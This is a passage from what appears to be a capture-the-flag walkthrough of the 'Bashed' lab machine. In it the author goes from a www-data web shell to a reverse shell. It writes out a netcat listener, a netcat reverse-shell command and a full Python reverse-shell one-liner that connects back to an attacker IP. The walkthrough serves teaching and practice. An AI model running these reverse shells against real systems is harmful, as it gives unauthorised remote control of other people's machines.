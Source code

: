 We’re running in the context of an Apache default user _www-data_. For this machine, we already have a low privileged shell that allows us to run linux commands on the web server, so we don’t necessarily need to get our own reverse shell. However, in a real penetration test, you would place your own shell in the system just in case the creator notices his insecure configuration and takes down the php script. This way you’ll have consistent access to the system by a shell that you control.

Since we’re modelling a real penetration test, let’s get a reverse shell going. In the attack machine \(kali\) set up a listener.

```text
nc -nlvp 4444
```

In the target machine \(bashed\) send a reverse shell to the attack machine.

```text
nc -nv 10.10.14.30 4444 -e /bin/sh
```

Unfortunately, the connection keeps terminating. Let’s try sending a reverse shell in a different way.

P[entestmonkey](http://pentestmonkey.net/) has a comprehensive list of reverse shells. Check if python exists on the target machine.

```text
which python
```

Since we get back a result, python is installed on the machine! Copy the python command from the list and change it to your attack machine’s ip address and listening port.

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Yes! We have a reverse shell going.

![](../images/max/572/1*Dhh9U-8MkrDDLqwYatscEg.png)

Let’s find the user flag. Change to the home directory and view its contents.

![](../images/max/689/1*995ncW6rXg-akMu6lKExFw.png)
